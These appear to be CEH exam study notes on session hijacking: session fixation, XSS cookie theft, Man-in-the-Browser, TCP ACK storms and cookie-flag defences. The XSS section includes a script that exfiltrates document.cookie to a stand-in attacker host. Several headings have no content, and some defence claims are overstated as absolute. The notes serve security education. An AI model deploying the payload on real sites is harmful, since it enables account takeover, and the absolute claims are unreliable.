


<div align="center">

# 🛡️ CEH v13 — Module 11: Session Hijacking
### Certified Ethical Hacker (CEH) Exam Notes • Network vs. Application Hijacking • TCP Sequence Prediction • ACK Storms • Session Fixation • MitB • Cookie Security Flags

[-0078D4?style=for-the-badge&logo=shield)](https://www.eccouncil.org/programs/certified-ethical-hacker-ceh/)
[](https://www.eccouncil.org/)
[](../README.md)
[](./README.md)

<p align="center">
  <b>Authoritative, exam-oriented study guide and reference architecture for CEH v13 Module 11: Session Hijacking. Covers the fundamental distinction between spoofing and hijacking, the 3-phase hijacking lifecycle, application-level hijacking (Session Fixation, XSS cookie exfiltration, Man-in-the-Browser, predictable token generation), network-level TCP session hijacking (sequence number prediction, connection desynchronization, ACK storm mechanics, blind injection), and protocol-level defenses (HttpOnly, Secure, SameSite, IPsec).</b>
</p>

[📖 Module Hub](../README.md) • [📋 PDF Reference](./CEHv13%20-%20Module%2011%20-%20Session%20Hijacking.pdf) • [🍪 Case Study: Session Hijacking](../../Case%20Study/Genesis%20Market/README.md) • [🗺️ Knowledge Base Index](../../README.md)

</div>

---

## 📋 Table of Contents

- [1. Session Hijacking Fundamentals](#1-session-hijacking-fundamentals)
  - [Definition & The Spoofing vs. Hijacking Distinction](#definition--the-spoofing-vs-hijacking-distinction)
  - [The 3-Phase Session Hijacking Lifecycle](#the-3-phase-session-hijacking-lifecycle)
  - [Application-Level vs. Network-Level Hijacking](#application-level-vs-network-level-hijacking)
- [2. Application-Level Session Hijacking](#2-application-level-session-hijacking)
  - [Session Token Hijacking & The Session State Model](#session-token-hijacking--the-session-state-model)
  - [Session Fixation Attacks & Mechanics](#session-fixation-attacks--mechanics)
  - [Cross-Site Scripting (XSS) Cookie Theft](#cross-site-scripting-xss-cookie-theft)
  - [Cross-Site Request Forgery (CSRF)](#cross-site-request-forgery-csrf)
  - [Man-in-the-Browser (MitB) Trojan Exploitation](#man-in-the-browser-mitb-trojan-exploitation)
- [3. Network-Level Session Hijacking](#3-network-level-session-hijacking)
  - [TCP 3-Way Handshake & Sequence Number Synchronization](#tcp-3-way-handshake--sequence-number-synchronization)
  - [TCP Sequence Number Prediction & Blind Hijacking](#tcp-sequence-number-prediction--blind-hijacking)
  - [Connection Desynchronization & RST Injection](#connection-desynchronization--rst-injection)
  - [The ACK Storm Phenomenon & Packet Infinite Loops](#the-ack-storm-phenomenon--packet-infinite-loops)
  - [UDP Session Hijacking](#udp-session-hijacking)
- [4. Session Hijacking Toolchains](#4-session-hijacking-toolchains)
  - [Hunt, Bettercap, and Scapy Packet Crafting](#hunt-bettercap-and-scapy-packet-crafting)
- [5. Session Hijacking Countermeasures & Defensive Engineering](#5-session-hijacking-countermeasures--defensive-engineering)
  - [Hardening HTTP Cookies: HttpOnly, Secure, and SameSite Flags](#hardening-http-cookies-httponly-secure-and-samesite-flags)
  - [Session Regeneration on Authentication](#session-regeneration-on-authentication)
  - [Network Layer Protections: IPsec & TLS Everywhere](#network-layer-protections-ipsec--tls-everywhere)
- [🧠 Master CEH Session Hijacking Decision Flowchart](#-master-ceh-session-hijacking-decision-flowchart)
- [🎯 High-Value CEH Exam Distinctions to Memorize](#-high-value-ceh-exam-distinctions-to-memorize)

---

# 1. Session Hijacking Fundamentals

## Definition & The Spoofing vs. Hijacking Distinction

**Session Hijacking** is the exploitation of an active, authenticated communication session between two entities (e.g., a client and a web server, or two TCP hosts) by inserting an unauthorized third party into the stream.

```
┌──────────────────────────────────────────────────────────────────────────────────┐
│                   SPOOFING VS. HIJACKING: THE CRITICAL CEH RULE                  │
├──────────────────────────────────────────────────────────────────────────────────┤
│                                                                                  │
│   SPOOFING (Before Authentication):                                              │
│   The attacker pretends to be another identity to initiate a brand-new           │
│   connection or send unauthenticated packets (e.g., IP spoofing, MAC spoofing).  │
│                                                                                  │
│   HIJACKING (After Authentication):                                              │
│   The attacker takes over an already established, already authenticated session  │
│   in real-time, effectively stealing the victim's verified authorization!        │
│                                                                                  │
└──────────────────────────────────────────────────────────────────────────────────┘
```

---

## The 3-Phase Session Hijacking Lifecycle

Every network-level or application session hijacking attack flows through three steps:



---

# 2. Application-Level Session Hijacking

## Session Fixation Attacks & Mechanics

In a **Session Fixation** attack, the attacker does not steal an existing session token; instead, the attacker **forces a pre-set session ID onto the victim**:

```
┌──────────────────────────────────────────────────────────────────────────────────┐
│                       SESSION FIXATION ATTACK SEQUENCE                           │
├──────────────────────────────────────────────────────────────────────────────────┤
│                                                                                  │
│   1. Attacker visits bank.com and obtains an unauthenticated Session ID = "XYZ123"│
│                                                                                  │
│   2. Attacker crafts trap link and sends it to Victim:                           │
│      http://bank.com/login.php?SID=XYZ123                                        │
│                                                                                  │
│   3. Victim clicks link and successfully logs in with username & password.       │
│                                                                                  │
│   4. FLAW: The web application fails to regenerate the Session ID upon login!    │
│      The session "XYZ123" is now fully authenticated as the Victim!              │
│                                                                                  │
│   5. Attacker opens browser, loads SID="XYZ123", and possesses FULL ACCOUNT ACCESS│
│                                                                                  │
└──────────────────────────────────────────────────────────────────────────────────┘
```

> [!IMPORTANT]
> **Countermeasure for Session Fixation:**
> The web application **MUST issue a completely new, regenerated Session ID** immediately upon successful user login!

---

## Cross-Site Scripting (XSS) Cookie Theft

If a web application reflects unvalidated user input, an attacker injects malicious JavaScript that executes inside the victim's browser context:

```html
<script>
    var img = new Image();
    img.src = 'http://attacker.com/steal?cookie=' + encodeURIComponent(document.cookie);
</script>
```

When the victim loads the page, their browser transmits their sensitive session cookie directly to the attacker's listener server.

---

## Man-in-the-Browser (MitB) Trojan Exploitation

A **Man-in-the-Browser (MitB)** attack utilizes a malicious browser extension, helper object (BHO), or Trojan running in the victim's local browser memory.
* Because the Trojan resides *inside* the browser process, it intercepts web pages **after TLS decryption** and **before HTML display**.
* When the victim submits a legitimate bank transfer of \$10 to a friend, the MitB Trojan silently intercepts the HTTP POST request, modifies the destination account to the attacker's account, and updates the amount to \$10,000—all while displaying a fake confirmation receipt of \$10 to the victim!

---

# 3. Network-Level Session Hijacking

## TCP 3-Way Handshake & Sequence Number Synchronization

TCP is a stateful, connection-oriented protocol that relies on 32-bit **Sequence Numbers (SEQ)** and **Acknowledgment Numbers (ACK)** to ensure reliable, in-order packet delivery:
$$\text{Next Expected ACK} = \text{Received SEQ} + \text{Length of Incoming Payload}$$

---

## Connection Desynchronization & The ACK Storm Phenomenon

When an attacker attempts to inject data into an active TCP stream without having a full in-line Man-in-the-Middle position:
1. The attacker injects a spoofed packet with a predicted sequence number: $\text{SEQ} = X$.
2. The server accepts the packet and advances its internal sequence counter: $\text{SEQ} = X + \text{Payload}$.
3. When the legitimate client sends its next packet, its sequence number is now behind ($\text{SEQ} < X$). The server rejects it and transmits an `ACK` indicating what sequence number it expects.
4. The client receives this unexpected `ACK`, sees a sequence number mismatch, and generates an `ACK` back to the server.
5. **The ACK Storm:** The client and server enter an infinite ping-pong loop, rapidly transmitting thousands of `ACK` packets back and forth trying to resynchronize, consuming massive bandwidth and freezing the connection.

---

# 4. Session Hijacking Countermeasures & Defensive Engineering

## Hardening HTTP Cookies: HttpOnly, Secure, and SameSite Flags

Web applications must enforce three security flags on every `Set-Cookie` HTTP response header:

```http
Set-Cookie: session_id=abc123xyz789; Secure; HttpOnly; SameSite=Strict; Path=/; Domain=target.com
```

| Cookie Flag | Security Mandate / Defense Provided |
|---|---|
| **`HttpOnly`** | **Completely blocks client-side JavaScript from accessing the cookie (`document.cookie`).** Renders Cross-Site Scripting (XSS) cookie theft completely impossible! |
| **`Secure`** | Instructs the browser to transmit the cookie **strictly over encrypted HTTPS connections**. Prevents cleartext sniffing over unencrypted HTTP. |
| **`SameSite=Strict`** | Prohibits the browser from sending the cookie in cross-site requests. Completely neutralizes Cross-Site Request Forgery (CSRF). |

---

# 🧠 Master CEH Session Hijacking Decision Flowchart



---

# 🎯 High-Value CEH Exam Distinctions to Memorize

| Question / Concept | Correct Answer / Key Insight | Common Exam Distractor (Trap) |
|---|---|---|
| **Spoofing vs Hijacking** | Spoofing is **before** auth; Hijacking is **stealing an already authenticated session**. | Treating them as the same thing. |
| **Cookie flag preventing XSS theft** | **`HttpOnly`** (Blocks `document.cookie` in browser scripts). | `Secure` (Only enforces HTTPS, doesn't block XSS). |
| **Mitigation for Session Fixation** | **Regenerate the session ID immediately upon login**. | Increasing password complexity. |
| **What causes a TCP ACK Storm?** | Sequence number **desynchronization** between client and server. | Smurf attacks or ICMP floods. |
| **Trojan modifying transactions inside browser** | **Man-in-the-Browser (MitB)** | Man-in-the-Middle (MitM operates on the network wire). |
| **Cookie flag preventing CSRF** | **`SameSite=Strict`** (or `Lax`). | `HttpOnly` (HttpOnly does not prevent CSRF). |

---

<div align="center">

<b>Next Module: [Module 12 — Evading IDS, Firewalls, and Honeypots](../Module%2012/README.md)</b> • <b>Previous Module: [Module 10 — Denial-of-Service](../Module%2010/README.md)</b>

</div>
